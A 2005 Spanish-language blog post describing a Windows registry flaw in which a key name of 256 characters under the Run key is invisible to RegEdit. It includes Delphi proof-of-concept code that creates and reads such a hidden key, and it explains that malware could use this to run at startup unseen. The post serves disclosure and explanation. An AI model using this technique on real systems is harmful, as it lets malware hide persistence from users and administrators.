 ```yaml
---
comments: true
date: 2005-10-12 01:41:54
layout: post
slug: una-seria-falla-en-el-registro-de-windows
title: Una seria falla en el registro de Windows
wordpress_id: 154
categories:
- Sin categoría
---
```


Sucede que a veces uno se topa con problemas mas grandes de lo que se imagina.

Investigando sobre un fallo reportado en [Secunia en Agosto](http://secunia.com/advisories/16560/), nunca sospeche que el problema era más serio de lo que pensaba.

Esencialmente, la falla permite excribir una entrada (key) en el registry que no es visible para las herramientas como Microsoft RegEdit.

Como se muestra en la imagen, pude crear una entrada oculta en el registry:

![regflaw.JPG](http://www.lnds.net/archives/regflaw.JPG)

Resulta que debajo de Optional hay una llave cuyo nombre consiste de 256 X seguidas.

El siguiente código en Delphi, permite explicar el fallo:
    
    <code style="margin-top: 0px; margin-right: 0px; margin-bottom: 0px; margin-left: 0px; padding-top: 0px; padding-right: 0px; padding-bottom: 0px; padding-left: 0px; " language="pascal">procedure TestRegistryFlaw;
    var
    I: Integer;
    reg : TRegistry;
    key : string;
    begin
    reg := TRegistry.Create;
    key := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Optional\';
    try
    for I := 0 to 255 do    // Iterate
    key := key + 'X';
    reg.RootKey := HKEY_LOCAL_MACHINE;
    if reg.OpenKey(key, true) then
    begin
    ShowMessage('trying to hack');
    reg.WriteString('TestFlaw', 'This is hacked registry key');
    ShowMessage('hacked!!!');
    end;
    finally
    reg.Free;
    end;
    end;
    procedure CheckRegistryFlaw;
    var
    I: Integer;
    reg : TRegistry;
    key : string;
    begin
    reg := TRegistry.Create;
    key := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Optional\';
    try
    reg.RootKey := HKEY_LOCAL_MACHINE;
    for I := 0 to 255 do    // Iterate
    key := key + 'X';
    if reg.OpenKey(key, false) then
    ShowMessage(reg.ReadString('TestFlaw'));
    finally
    reg.Free;
    end;
    end;</code>

Lo que tenemos aquí es que hemos creado una entrada que no es visible por regedit y otros utilitarios de Windows.

Pero lo peor, es que en Microsoft.Net este código no puede ser creado, porque la Clase RegistryKey hace un chequeo, levantando una excepción si uno trata de escribir una llave de largo mayor que 255.

En suma, lo que hacen en Microsoft.Net es ocultar el bug debajo de la alfombra.

Pero, ¿cual es el problema con esto? es que uno puede escribir código en la llave Run de Windows, con lo que se hace[posible ocultar virus o malware de cualquier tipo](http://techrepublic.com.com/2100-1009_11-5843863.html), para ser ejecutado en cuanto se inicia Windows, y usted no podrá verlo, porque las herramientas de Windows no le dan la posibilidad de revisar este código malicioso.

Es posible escribir código en C# o C++ que hace lo mismo que el código Delphi que escribí más arriba. Sugiero ver mi post en DarkSideProgramming: [Hidding a Flaw](http://www.darksideprogramming.org/archives/2005/10/hidding_a_flaw.html).

Pero lo interesante, es que algunos programadores en CodeProject han descubierto que, al menos en Windows XP conSP2 la falla es más seria !



